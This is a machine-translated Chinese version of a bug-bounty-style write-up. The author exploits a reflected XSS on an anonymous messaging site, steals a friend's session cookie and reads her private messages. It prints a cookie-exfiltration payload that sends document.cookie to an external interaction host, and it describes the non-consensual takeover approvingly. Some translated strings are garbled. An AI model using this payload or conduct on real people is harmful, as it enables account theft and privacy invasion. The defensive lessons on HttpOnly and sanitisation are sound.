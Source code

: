 # 通过 XSS 阅读我的暗恋信息

> 原文：<https://infosecwriteups.com/reading-my-crush-messages-through-xss-f662661119c2?source=collection_archive---------0----------------------->

向所有读者问好，

这是一个迟来的帖子，因为这件事发生在去年我还在上大学的时候。

所以去年在一级防范禁闭中，有一种匿名消息传递的趋势，人们过去常常分享链接，他们的朋友可以匿名向他们发送任何他们想要的消息。

这与萨拉哈的文章非常相似，如果有人读过那篇文章，就会发现这非常相似。

所以，我的一个大学朋友在他们的 whatsapp 上分享了一个链接。链接指向的网址是**quiz 恶作剧. xyz**

![](img/fe75ae9d0e55bb2934d5cb2e673e26ec.png)

她分享的链接允许其他人发送他们想要的任何信息。

我打开链接看了一下，发现了有趣的文件和参数。

![](img/e32942fc7d9034ece6a3272d627c9d6c.png)

在检查一个有趣的链接时，我发现

【https://quizprank.xyz/error.php? error = ww 91 ihdlcmugbg 9 NZ 2 vkig 91 DCE =

![](img/1c87ee36e6e646511762ac74ef80efa5.png)

因此，错误参数使用 base64 编码的文本，并直接反映在页面上。

我使用了一个简单的 XSS 有效载荷，并用 base64 编码。

> 有效载荷— "> 
> 
> Base 64 编码-ij 48 C2 nya XB 0 pmfszxj 0 kdepozwvc 2 nya XB 0 pg = =

这导致执行 javascript 有效负载，并观察到弹出窗口。

![](img/a3aa3aa64297054349dfb510dc52cd07.png)

嗯，许多 Infosec 的人仅仅停留在弹出一个 XSS 漏洞的警报，但在 bug 搜索中，我见过许多这样的情况，如果你向他们展示一种导致账户被接管的方法，程序会付给你更多的钱。

那么让我们来看看剥削。

在这种情况下，我用了一个简单的方法来偷饼干。我修改了我的有效负载，请求一个到我的服务器的链接，并在同一个链接中发送 cookies。

*新有效载荷- <脚本>document . location = '*[*http://cdkhapj 2 vtc 0000 ng 0 w0 gg 3 aimcyyyyyb . oast . fun？c = '+btoa(document . cookie)*](http://cdkhapj2vtc0000ng0w0gg3aimcyyyyyb.oast.fun?c='+btoa(document.cookie))*；</脚本>*

这里，我使用了一个免费的服务 interact.sh 来接收和查看通过有效负载发出的请求。

我用 Base64 编码了有效载荷并发送给她-

![](img/8cb312d00500bef2f616cab1a7c6a4ce.png)

她点击了链接，我收到了她的帐户的 cookies 以及用户代理和 IP。

![](img/288f8373647d872240d5938dd0d7692f.png)

现在，我唯一要做的就是使用这些饼干，我可以看到她收到的所有信息。

我用我在 Burp Suite Repeater 收到的那个修改了 cookies，我可以进入她的账户，看到她的所有信息。

这导致了她在那个网站上的账户被接管。

我告诉她这件事，因为她应该知道发生了什么事

![](img/3449a4aa243fc1c278bf9e1d9d71609a.png)

嗯，她对此并没有生气，正面回答，很有兴趣想知道是怎么做到的。

Ps: 不要试图用这种方法来给人留下深刻印象，因为这看起来令人毛骨悚然，在现实生活中也行不通。

![](img/821b8f1a98f5f16893ef594d1983dec2.png)

这是利用 XSS 漏洞的一个非常简单的方法，在上面这样的网站上很容易找到。

此外，该漏洞已于去年报告给管理员。

**结论**

不要点击和相信你收到的链接。

对 Infosec 的人来说:是的，cookie 中缺少了 **HttpOnly 标志**,导致它窃取了 cookie。

缺少允许有效负载在页面上反映的输入清理。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！
